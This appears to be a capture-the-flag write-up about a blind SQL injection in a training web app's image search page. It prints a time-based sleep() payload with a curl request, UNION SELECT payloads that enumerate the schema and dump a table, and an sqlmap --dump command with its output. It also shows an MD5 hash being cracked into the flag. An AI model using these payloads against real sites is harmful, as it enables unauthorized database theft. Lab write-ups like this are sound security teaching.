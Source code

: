 [README.md](../../../README.md)
# SQL Injection /?page=searchimg

## Wapiti Report
Blind SQL vulnerability via injection in the parameter id
`GET /?page=searchimg&id=sleep%287%29%231&Submit=Submit HTTP/1.1`
Host: 10.13.200.53
Referer: http://10.13.200.53/?page=searchimg
curl "http://10.13.200.53/?page=searchimg&id=sleep%287%29%231&Submit=Submit" -e "http://10.13.200.53/?page=searchimg"


## Exploit
**Database name:**
```
ID: 0 UNION SELECT 1,database() 
Title: Member_images
Url : 1
```

**Content:**
```
1 UNION select table_name, column_name FROM information_schema.columns
list_images
- id
- url
- title
- comment
```

**By searching in the databse columns we can find:**
```
ID: 1 UNION select url, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png
```

[SHA-256 - Password SHA256 Hash Decryption - Online Decoder/Encoder](https://www.dcode.fr/sha256-hash)
*MD5 decrypt:* `albatroz`
*SHA256 encrypt:* `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

### SQLmap tool
`sqlmap -u "http://172.16.0.98/index.php?page=searchimg&id=1&Submit=Submit#" --dump -T list_images -D Member_images`
```
Database: Member_images
Table: list_images
[5 entries]
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | url                                      | title     | comment
                                                                 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | https://fr.wikipedia.org/wiki/Programme_ | Nsa       | An image about the NSA !
                                                                 |
| 2  | https://fr.wikipedia.org/wiki/Fichier:42 | 42 !      | There is a number..
                                                                 |
| 3  | https://fr.wikipedia.org/wiki/Logo_de_Go | Google    | Google it !
                                                                 |
| 4  | https://en.wikipedia.org/wiki/Earth#/med | Earth     | Earth!
                                                                 |
| 5  | borntosec.ddns.net/images.png            | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
+----+------------------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

## Prevention 
See: [SQL Injection Prevention](../../sql_injection_member/Resources/sql_injection_member.md#prevention)
